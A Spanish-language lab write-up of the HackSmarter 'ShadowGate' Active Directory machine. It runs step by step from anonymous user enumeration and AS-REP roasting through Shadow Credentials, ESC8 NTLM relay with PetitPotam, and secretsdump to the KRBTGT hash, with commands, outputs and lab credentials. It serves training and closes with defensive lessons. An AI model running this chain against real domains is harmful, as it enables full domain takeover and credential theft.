


# Writeup: ShadowGate (HackSmarter — Internal AD Pentest)

ShadowGate es una máquina **Facíl** que simula un entorno Active Directory recientemente consolidado tras una adquisición corporativa. El recorrido comienza con la enumeración de usuarios mediante RPC, seguida de un ataque **AS-REP Roasting** que permite obtener credenciales para el usuario `jtrueblood`. A partir de ahí, se explota una configuración insegura de Active Directory Certificate Services (AD CS) con **Certipy Shadow Credentials** para obtener el hash NT del usuario `bbrown`. Posteriormente, se utiliza **PetitPotam** para forzar una autenticación NTLM y realizar un **NTLM Relay** hacia AD CS, obteniendo un certificado del controlador de dominio. Finalmente, se extrae el hash NT del **KRBTGT** mediante `secretsdump`, cumpliendo con el objetivo del *scope*.


## 🎯 Objetivo / Scope

ShadowGate completó recientemente una adquisición corporativa que expandió significativamente su red interna, base de usuarios y superficie de aplicaciones. Varios sistemas críticos fueron migrados y consolidados bajo plazos operativos ajustados para minimizar el tiempo de inactividad. Si bien se completó la validación funcional, la organización aplazó una evaluación de seguridad integral debido a la presión de entrega y restricciones de personal. El equipo de Hack Smarter ha sido autorizado para realizar una prueba de penetración interna de tipo *black box* contra el entorno ShadowGate para validar su postura de seguridad e identificar riesgos materiales.

**Objetivo final:** Obtener el **NT Hash de la cuenta KRBTGT**.

---

## Fase 1: Reconocimiento

Lanzamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn -vv 10.0.27.53 -oG allPorts
```

**Resultado:**

```bash
Discovered open port 80/tcp on 10.0.27.53
Discovered open port 3389/tcp on 10.0.27.53
Discovered open port 445/tcp on 10.0.27.53
Discovered open port 135/tcp on 10.0.27.53
Discovered open port 139/tcp on 10.0.27.53
Discovered open port 53/tcp on 10.0.27.53
```

El escaneo completo reveló múltiples puertos típicos de un controlador de dominio. Usamos `extractPorts` para extraer la IP y los puertos abiertos:

```bash
extractPorts allPorts
```

```bash
[*] Extrayendo información...
        [*] Dirección IP: 10.0.27.53
        [*] Puertos abiertos: 53,80,88,135,139,389,445,464,593,636,3268,3389,49667,56182,57691,57692,57704,57735
[*] Puertos copiados al portapapeles
```

Realizamos un escaneo de servicios y versiones:

```bash
nmap -sVC -p 53,80,88,135,139,389,445,464,593,636,3268,3389,49667,56182,57691,57692,57704,57735 10.0.27.53 -oN targeted
```

**Resultados clave:**

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate)
445/tcp   open  microsoft-ds?
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
```

**Observaciones clave:**

- **Dominio**: `shadow.gate`
- **Controlador**: `DC01.shadow.gate`


Añadimos el dominio a `/etc/hosts`:

```bash
echo "10.0.27.53 DC01.shadow.gate shadow.gate" >> /etc/hosts
```

---

## Fase 2: Enumeración de usuarios

Probamos autenticación nula con `nxc`:

```bash
nxc smb DC01.shadow.gate -u 'guest' -p '' --shares
```

```bash
SMB         10.0.27.53      445    DC01             [-] shadow.gate\guest: STATUS_ACCOUNT_DISABLED
```

El usuario invitado está deshabilitado, pero la enumeración de usuarios con `rpcclient` en sesión nula funciona:

```bash
rpcclient -U "" -N 10.0.27.53 -c "enumdomusers"
```

```bash
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ATHENA] rid:[0x44f]
user:[mbrownlee] rid:[0x450]
user:[bbrown] rid:[0x455]
user:[jtrueblood] rid:[0x456]
user:[jsmith] rid:[0x458]
user:[clocke] rid:[0x459]
user:[tclarke] rid:[0x45a]
user:[jbradford] rid:[0x45b]
user:[amoss] rid:[0x45c]
```

Guardamos la lista en `usernames.txt` para futuros ataques.

---

## Fase 3: AS-REP Roasting

Con la lista de usuarios, intentamos un ataque **AS-REP Roasting** para obtener hashes de usuarios que no requieren preautenticación Kerberos:

```bash
impacket-GetNPUsers shadow.gate/ -no-pass -usersfile usernames.txt -dc-ip 10.0.27.53 -format hashcat
```

**Resultado:**

```bash
$krb5asrep$23$jtrueblood@SHADOW.GATE:46ae392bc68fdf7475530e56a0613367$2e4099d351683ee1223774715f47f8706f80033ee44f6ca20aaae94b31eecf1cfc72d9fc57869cf258ef8b5c1db3cffe8017a30aec92d1924bb0d4aef27f96c3bfb902c1fe8fee69705220c75e9babb64369e95476568540744a891b8428a32056c32975eea8ee845a5caf87cdd92c0f922a01dd8714813224a51f3ae9141d8240e97aafb69d772191ea497a2f4a6234aaa1b5e292e6fd21a938d33e27b107a28fc819580733780c46bef5184899b15f311925cee3db06984e6ad0226dfda52609b2e6c8e7674e49c179e5682dc9f1e7802b2c1388fb2b00fd76e18ece7c8eea41ea8dc22d6fc1ebf9f2
```

El usuario **`jtrueblood`** tiene el flag `UF_DONT_REQUIRE_PREAUTH` habilitado. Guardamos el hash en `hash.txt` y lo crackeamos con `hashcat` (modo 18200):

```bash
hashcat -a 0 -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

El crackeo revela la contraseña: **`blood_brothers`** (censurada en este writeup).

Verificamos las credenciales con `nxc`:

```bash
nxc smb DC01.shadow.gate -u 'jtrueblood' -p 'blood_brothers' --shares
```

```bash
SMB         10.0.27.53      445    DC01             [+] shadow.gate\jtrueblood:blood_brothers
SMB         10.0.27.53      445    DC01             Share           Permissions     Remark
SMB         10.0.27.53      445    DC01             -----           -----------     ------
SMB         10.0.27.53      445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.0.27.53      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.27.53      445    DC01             NETLOGON        READ            Logon server share
SMB         10.0.27.53      445    DC01             SYSVOL          READ            Logon server share
```

El recurso `CertEnroll` indica la presencia de **Active Directory Certificate Services (AD CS)**.

---

## Fase 4: Enumeración de Active Directory con BloodHound

Con las credenciales de `jtrueblood`, el siguiente paso es mapear el entorno de Active Directory para identificar rutas de escalada de privilegios. Usamos `nxc` con el módulo de BloodHound para recolectar datos de forma automatizada:

```bash
nxc ldap shadow.gate -u 'jtrueblood' -p 'blood_brothers' --dns-server 10.0.27.53 --bloodhound -c all
```

```bash
LDAP        10.0.27.53      389    DC01             Done in 0M 25S
LDAP        10.0.27.53      389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.0.27.53_2026-07-07_201859_bloodhound.zip
```

Copiamos el archivo ZIP generado para importarlo en la interfaz de BloodHound:

```bash
cp /home/kali/.nxc/logs/DC01_10.0.27.53_2026-07-07_201859_bloodhound.zip .
```

Tras importar el archivo en BloodHound y analizar el grafo del dominio, encontramos dos hallazgos críticos:

1. **`jtrueblood` tiene permisos `GenericWrite` sobre `bbrown`**  
   Este permiso permite a `jtrueblood` modificar los atributos del objeto `bbrown`, incluyendo la capacidad de añadir credenciales Shadow (msDS-KeyCredentialLink). Esto explica por qué el ataque de Shadow Credentials con Certipy funcionó.

2. **`bbrown` es miembro del grupo `ADCS Reader`**  
   Este grupo otorga permisos de lectura sobre la infraestructura de Active Directory Certificate Services (AD CS), lo que permite enumerar configuraciones de la CA y buscar vulnerabilidades como ESC8.





---

## Fase 5: Shadow Credentials con Certipy

Aprovechando el permiso `GenericWrite` de `jtrueblood` sobre `bbrown`, usamos `certipy-ad` con el módulo `shadow` para añadir una credencial Shadow a `bbrown` y obtener su hash NT:

```bash
certipy-ad shadow auto -u jtrueblood@shadow.gate -p 'blood_brothers' -account 'bbrown' -dc-ip 10.0.27.53
```

**Explicación:** `certipy-ad shadow` explota la capacidad de modificar los atributos `msDS-KeyCredentialLink` de un usuario (Shadow Credentials) para añadir una clave pública y autenticarse posteriormente con un certificado. Este ataque permite tomar el control de la cuenta objetivo y obtener su hash NT.

**Salida:**

```bash
[*] Targeting user 'bbrown'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '7141825f5903439788817b1b5583178e'
[*] Adding Key Credential with device ID '7141825f5903439788817b1b5583178e' to the Key Credentials for 'bbrown'
[*] Successfully added Key Credential with device ID '7141825f5903439788817b1b5583178e' to the Key Credentials for 'bbrown'
[*] Authenticating as 'bbrown' with the certificate
[*] Got TGT
[*] Saving credential cache to 'bbrown.ccache'
[*] Wrote credential cache to 'bbrown.ccache'
[*] Trying to retrieve NT hash for 'bbrown'
[*] Restoring the old Key Credentials for 'bbrown'
[*] Successfully restored the old Key Credentials for 'bbrown'
[*] NT hash for 'bbrown': 259745cb123a52aa2e693aaacca2db52
```

Obtenemos el hash NT de `bbrown`: **`259745cb123a52aa2e693aaacca2db52`** .

---

## Fase 6: Enumeración de AD CS con Certipy

Con el hash NT de `bbrown`, y sabiendo que `bbrown` es miembro del grupo `ADCS Reader`, usamos `certipy-ad` para enumerar vulnerabilidades en la infraestructura de certificados:

```bash
certipy-ad find -u bbrown@shadow.gate -hashes 259745cb123a52aa2e693aaacca2db52 -dc-ip 10.0.27.53 -vulnerable
```

**Resultado clave:**

```bash
Certificate Authorities
  0
    CA Name                             : shadow-DC01-CA
    DNS Name                            : DC01.shadow.gate
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
```

La vulnerabilidad **ESC8** confirma que la inscripción web de AD CS está habilitada sobre HTTP, lo que permite ataques de **NTLM Relay**. Esta configuración es crítica porque no se aplica la vinculación de canales (channel binding) ni la protección extendida de autenticación (EPA), haciendo que la CA sea vulnerable a retransmisión de autenticaciones NTLM.

---

## Fase 7: PetitPotam + NTLM Relay hacia AD CS (ESC8)

Para explotar ESC8, el atacante configura un servidor NTLM Relay que escuchará conexiones SMB entrantes y las retransmitirá al endpoint de inscripción web de AD CS.

### 1. Configurar NTLM Relay hacia AD CS

```bash
impacket-ntlmrelayx -t http://DC01.shadow.gate/certsrv/certfnsh.asp -smb2support --adcs --template Machine
```

El primer intento usó el template **Machine** y falló.

### 2. Cambiar al template DomainController

```bash
impacket-ntlmrelayx -t http://DC01.shadow.gate/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

**¿Por qué falló el primer intento y funcionó el segundo?**

El template **Machine** está diseñado para cuentas de equipo (`domain computers`) y solicita la autenticación de una cuenta de máquina. Sin embargo, al forzar la autenticación del controlador de dominio, la cuenta `DC01$` no tiene permiso para inscribirse en el template **Machine** (ya que es una cuenta de equipo, pero con privilegios especiales que la hacen incompatible con ese template). El template **DomainController** está diseñado específicamente para cuentas de controlador de dominio, por lo que la autenticación del DC es aceptada y se genera el certificado correctamente.

### 3. Forzar la autenticación del DC con PetitPotam

En otra terminal, ejecutamos PetitPotam para forzar al controlador de dominio a autenticarse contra nuestro servidor SMB:

```bash
python3 PetitPotam.py -u jtrueblood -p 'blood_brothers' -d shadow.gate 10.10.17.44 DC01.shadow.gate
```

**Salida de `ntlmrelayx`:**

```bash
[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.0.27.53, attacking target http://DC01.shadow.gate
[*] (SMB): Authenticating connection from /@10.0.27.53 against http://DC01.shadow.gate SUCCEED [1]
[*] http:///@dc01.shadow.gate [1] -> Generating CSR...
[*] http:///@dc01.shadow.gate [1] -> CSR generated!
[*] http:///@dc01.shadow.gate [1] -> Getting certificate...
[*] http:///@dc01.shadow.gate [1] -> GOT CERTIFICATE! ID 4
[*] http:///@dc01.shadow.gate [1] -> Writing PKCS#12 certificate to ./DC01.shadow.gate.pfx
[*] http:///@dc01.shadow.gate [1] -> Certificate successfully written to file
```

Obtenemos el certificado `DC01.shadow.gate.pfx` que corresponde a la cuenta `DC01$`.

---

## Fase 8: Dumping del NTDS

Usamos `certipy-ad` para autenticar con el certificado y obtener el TGT de `DC01$`:

```bash
certipy-ad auth -pfx DC01.shadow.gate.pfx -dc-ip 10.0.27.53
```

**Salida:**

```bash
[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:d0a3c3ed59584b7bfc6b2431f19b8ffb
```

Con el hash de `DC01$`, realizamos un dump del NTDS:

```bash
impacket-secretsdump -just-dc -hashes aad3b435b51404eeaad3b435b51404ee:d0a3c3ed59584b7bfc6b2431f19b8ffb 'dc01$@10.0.27.53'
```

**Salida (censurada):**

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:[REDACTED]
```

Obtenemos el **NT Hash de KRBTGT**: **`[REDACTED]`**, cumpliendo con el objetivo del *scope*.

---

## Conclusión

ShadowGate es una máquina **Media** que combina:

1. **Enumeración de usuarios** mediante `rpcclient` en sesión nula.
2. **AS-REP Roasting** para obtener credenciales de `jtrueblood`.
3. **BloodHound** para identificar una ruta de escalada: `jtrueblood` → `GenericWrite` sobre `bbrown` → `bbrown` en `ADCS Reader`.
4. **Shadow Credentials** con Certipy para obtener el hash NT de `bbrown`.
5. **Certipy Find** para confirmar la vulnerabilidad ESC8 en AD CS.
6. **PetitPotam + NTLM Relay** hacia AD CS, forzando la autenticación del controlador de dominio y obteniendo un certificado de `DC01$`.
7. **Dumping del NTDS** con `secretsdump` para extraer el hash de KRBTGT.

---

## Lecciones aprendidas

1. **La enumeración en sesión nula sigue siendo un riesgo**  
   `rpcclient` permitió listar usuarios del dominio sin autenticación. Deshabilitar la enumeración anónima es fundamental.

2. **AS-REP Roasting es un vector de ataque efectivo**  
   El usuario `jtrueblood` tenía el flag `UF_DONT_REQUIRE_PREAUTH` habilitado, lo que permitió obtener su hash y crackearlo. Deshabilitar esta opción para todos los usuarios es crítico.

3. **BloodHound es esencial para identificar rutas de escalada en AD**  
   Sin BloodHound, la cadena de permisos `jtrueblood` → `GenericWrite` sobre `bbrown` → `bbrown` en `ADCS Reader` habría sido mucho más difícil de descubrir. Esta herramienta permite visualizar relaciones y permisos complejos de forma rápida y efectiva.

4. **AD CS con HTTP habilitado expone el entorno a ataques de NTLM Relay (ESC8)**  
   La inscripción web sobre HTTP permite a un atacante retransmitir autenticaciones NTLM y solicitar certificados en nombre de cualquier usuario o equipo. Es obligatorio usar HTTPS y habilitar la protección extendida de autenticación (EPA).

5. **Shadow Credentials (msDS-KeyCredentialLink) permiten la toma de cuentas**  
   La capacidad de añadir claves públicas a otros usuarios sin autenticación fuerte es extremadamente peligrosa. Revisar y restringir los permisos de escritura sobre los atributos `msDS-KeyCredentialLink` es esencial.

6. **El contexto del template en AD CS es crítico**  
   El uso de un template incorrecto (Machine) hizo que el relay fallara. Usar el template adecuado (DomainController) permitió obtener el certificado del DC. Esto subraya la importancia de comprender los templates de certificados y sus permisos.

7. **PetitPotam sigue siendo una herramienta efectiva para forzar autenticaciones**  
   Aunque algunos parches mitigan este ataque, en configuraciones vulnerables sigue permitiendo forzar la autenticación de sistemas críticos.

8. **El hash KRBTGT es la llave maestra del dominio**  
   Su compromiso permite la creación de Golden Tickets y acceso persistente e irrestricto a cualquier recurso del dominio.
